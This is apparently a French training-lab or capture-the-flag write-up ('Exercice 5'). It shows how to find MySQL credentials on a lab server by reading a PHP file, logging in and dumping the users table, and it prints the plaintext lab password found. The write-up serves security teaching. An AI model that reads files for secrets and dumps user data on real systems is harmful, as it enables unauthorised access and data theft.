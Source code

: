 # Exercice 5

### Le serveur X.X.X.X possède un service MySQL qui peut contenir des données intéressantes - et vous permettra de déployer d’autres techniques d’élévation (utilisation de user modules, vulnérabilité applicative, etc.)
- Trouvez un accès au service MySQL (nom d’utilisateur & mot de passe)
- Prouvez la réussite de votre recherche par un SELECT sur la table d’utilisateurs

```bash
cd /var/www/restricted
cat admin.php
```
On trouve le mot de passe de l'utilisateur admin : `production:NeverGuessThis!`

```bash
mysql -u production -p
```
On fait un SELECT pour tous les utilisateurs mysql.
```sql
SHOW DATABASES;
```
On trouve la base de données `webapp`
```sql
USE webapp;
SHOW TABLES;
```
On trouve la table `users`
```sql
SELECT * FROM users;
```